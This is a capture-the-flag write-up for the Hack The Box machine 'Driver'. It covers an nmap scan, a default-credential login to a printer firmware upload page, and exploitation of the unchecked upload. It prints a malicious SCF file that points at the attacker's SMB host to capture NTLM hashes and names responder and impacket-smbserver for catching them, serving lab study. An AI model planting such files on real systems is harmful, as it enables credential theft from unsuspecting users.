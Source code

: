 # Driver
> Write-up author: jon-brandy
## DESCRIPTION:
- NONE
## HINT:
- NONE
## STEPS:

> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sVC -Pn 10.10.11.106 -T4
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-11 00:40 PDT
Nmap scan report for 10.10.11.106
Host is up (0.020s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
135/tcp  open  msrpc        Microsoft Windows RPC
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-08-11T14:42:06
|_  start_date: 2023-08-11T14:39:43
|_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m58s
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 135.39 seconds
```

Using nmap, we identified that there are 4 ports open: 80, 135 (MSRPC service), 445 (SMB service), and 5985. Port 5985 (WinRM service) should be of interest here. Anyway, since it runs a webapp, I succeeded in logging in using `admin:admin`.

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/7b3e6987-30f9-4f12-8881-64b73201c8c7)


It seems the vulnerability is in the file upload feature because it does not check the uploaded file; the file itself shall be reviewed manually later by the testing team.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a69f817c-0ea2-4196-996c-41501be82cec)


Remembering that the OS used is Windows,  we can upload a Shell Command File (SCF) that can make a connection back to our local machine using SMB (remembering the file is uploaded to a SMB share). With this, we can grab the NTLM Hash.

#### NOTES:

```
NTLM (NT LAN Manager) hash is a cryptographic hash function used in Windows OS for authentication purposes.
It's commonly used as a password hashing mechanism in Windows env.
NTLM hash is designed to hash passwords and other data for security,
 but it's considered relatively weak compared to more modern hashing algorithms like bcrypt or Argon2.
```

Since there is SMB Share, i used this template `.scf` file from this --> https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/.

> SCF FILE

```
[Shell]
Command=2
IconFile=\\10.10.14.4\tools\nc.ico
[Taskbar]
Command=ToggleDesktop
```

To capture the NTLM hash, we can either using **responder** or **impacket-smbserver**. 
